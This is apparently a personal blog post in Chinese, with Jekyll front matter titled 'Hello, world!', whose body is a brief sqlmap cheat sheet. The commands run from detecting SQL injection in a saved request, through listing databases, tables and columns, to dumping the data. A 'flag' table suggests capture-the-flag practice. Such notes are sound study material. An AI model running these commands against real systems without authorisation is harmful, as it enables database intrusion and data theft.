 ```yaml
---
title: 你好，世界！
date: 2022-03-26 10:34:00 +0800
categories: [随笔]
tags: [生活]
pin: true
author: 理性暗面

toc: true
comments: true
typora-root-url: ../../lixanm.github.io
math: false
mermaid: true

image:
  src:
  alt: 
---
```


# sqlmap

python sqlmap.py -r r.txt	//找漏洞

python sqlmap.py -r r.txt -current-db	//找库

python sqlmap.py -r r.txt --table -D sql_test	//找库下的文件

python sqlmap.py -r r.txt --columns -T flag -D sql_test	//找文件下的字段

python sqlmap.py --purge

python sqlmap.py -r r.txt --dump	//查找数据









